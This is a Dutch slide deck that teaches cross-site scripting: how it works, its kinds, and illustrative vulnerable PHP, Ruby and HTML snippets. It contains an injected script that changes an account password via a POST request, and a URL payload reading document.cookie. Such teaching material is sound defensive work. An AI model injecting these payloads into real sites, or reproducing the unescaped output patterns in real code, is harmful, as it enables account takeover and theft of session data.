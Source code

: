 !SLIDE image
# Werking #

![rendering](rendering.jpg)

    @@@php
    <i><?php print $email ?></i>

!SLIDE code

    @@@html
    ber@berk.es</i><script>
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "/account", true);
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhr.send("password=compromised");
    </script><i>

!SLIDE bullets incremental
# Werking #

* Injecteer scripts of andere ongewenste content.

!SLIDE center
<iframe width="960" height="720" src="//www.youtube.com/embed/dQw4w9WgXcQ?autoplay=1" frameborder="0" allowfullscreen></iframe>

!SLIDE bullets incremental
# Soorten #

* Reflected, None-persistent XSS
* Stored, Persistent XSS
* DOM based XSS
* mXSS of mutation XSS

!SLIDE
# Reflected #

    @@@ruby
    "Please check the confirmation at %{email}"

!SLIDE
# Stored #

    @@@ruby
    msg = "Users with changed emails:<br>"
    User.updated(2.days.ago).each do |user|
      msg += "* %{user.email}<br>"
    end

!SLIDE
# DOM based #

    @@@HTML
    <select><script>
    document.write("<OPTION value=1>"
      +document.location.href.substring(
        document.location.href.indexOf("default=")
      +8)+"</OPTION>");
    document.write("<OPTION value=2>English</OPTION>");
    </script></select>

Normaal aangeroepen met: `http://www.some.site/page.html?default=French`

Nu aangeroepen met: `http://www.some.site/page.html?default=<script>alert(document.cookie)</script>`

!SLIDE image
# mXSS mutation XSS #
![Einde der tijden](laatste_oordeel.jpg)

* Gebruikt innerHTML om ge-escapete code te ont-escapen.
* Alle Browserbouwers gingen al de mist in.
* Extra voorzichtig met WYSIWYG-editors, SVG, MathML en CDATA.
